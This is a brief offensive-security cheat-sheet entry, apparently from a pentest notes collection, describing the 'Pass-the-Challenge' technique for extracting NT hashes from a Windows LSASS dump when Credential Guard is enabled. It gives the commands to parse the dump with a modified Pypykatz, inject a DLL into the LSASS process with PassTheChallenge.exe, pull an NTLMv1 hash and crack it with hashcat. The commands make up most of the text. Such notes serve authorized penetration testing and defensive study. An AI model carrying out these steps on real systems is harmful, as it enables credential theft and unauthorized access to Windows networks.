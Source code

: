 # Pass-the-Challenge

This technique permits to retrieve the NT hashes from a LSASS dump when Credential Guard is in place. This modified version of Pypykatz must be used to parse the LDAP dump.

Link: https://github.com/ly4k/Pypykatz

## NTLMv1

#Dump the LSASS process with Mimikatz for example
#Parse the dump with Pypykatz

    python3 -m pypykatz lsa minidump lsass.DMP -p msv

#Inject the SecurityPackage.dll into the LSASS process

    ./PassTheChallenge.exe inject ./SecurityPackage.dll

#Retrieve the NTLMv1 hash

    ./PassTheChallenge.exe nthash <context handle>:<proxy info> <encrypted blob>

#Crack the NTLMv1 hash with hashcat to retrieve the NT hash
